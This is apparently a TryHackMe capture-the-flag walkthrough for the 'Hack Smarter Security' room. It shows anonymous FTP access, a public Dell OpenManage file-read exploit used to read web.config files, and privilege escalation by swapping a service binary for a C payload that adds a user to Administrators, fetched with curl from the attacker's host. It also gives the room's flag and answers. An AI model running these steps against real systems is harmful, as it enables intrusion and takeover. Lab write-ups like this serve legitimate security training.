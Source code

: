 ### 23-Mar-24-Sat

[TryHackMe | Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/822b3b08-670c-4f68-b108-a1629138da88)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a13db521-7da8-4202-9fc3-c6eba70250fb)

```
ftp anonymous@hacksmarter.thm
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6b6b1042-c179-4479-9329-f10e39905d92)

https://0xb0b.gitbook.io/writeups/tryhackme/2024/hack-smarter-security#initial-foothold

https://raw.githubusercontent.com/RhinoSecurityLabs/CVEs/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py

```
python CVE-2020-5377.py 10.17.44.152 10.10.171.27:1311
```

```
C:\inetpub\wwwroot\application\web.config
```

```
C:\inetpub\wwwroot\hacksmartersec\web.config
```

```
C:\Windows\win.ini
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/536b34fa-04af-487a-a6f1-40f44e054c04)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a59e1e6c-019b-4515-9eee-e131179b4359)

```
THM{4ll15n0tw3llw1thd3ll}
```

https://jaxafed.github.io/posts/tryhackme-hack_smarter_security/#shell-as-tyler

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c489b025-5717-4961-84eb-5fd50423ddf2)

```
sc qc spoofer-scheduler
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/6d2ab7a9-f9fb-4a25-bc54-d6eede868ede)

```
icacls "C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe"
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/be0ee078-a8ee-418f-90d2-9e45c4713fb9)

```
#include <stdlib.h>

int main() {
  system("cmd.exe /c net localgroup Administrators tyler /add");
  return 0;
}
```

```
x86_64-w64-mingw32-gcc-win32 payload.c -o payload.exe
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/e5592ea3-8509-413a-860c-0df304f7b497)

```
sc stop spoofer-scheduler
```

```
move spoofer-scheduler.exe spoofer-scheduler.exe.bak
```

```
curl http://10.17.44.152/payload.exe -o spoofer-scheduler.exe
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f597a472-ecdd-42e3-890c-cb2efef23dd6)

```
whoami /groups
```

type C:\Users\Administrator\Desktop\Hacking-Targets\hacking-targets.txt

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f09fc9d0-466f-44ae-a436-c0ee23a8359b)

```
CyberLens, WorkSmarter, SteelMountain
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b72e44ff-6134-44ea-8301-50caa3c93533)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b2b56066-98e9-4fe7-9c8c-acd7232f02da)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/3c329d78-28e7-47f9-94d7-811403afed47)

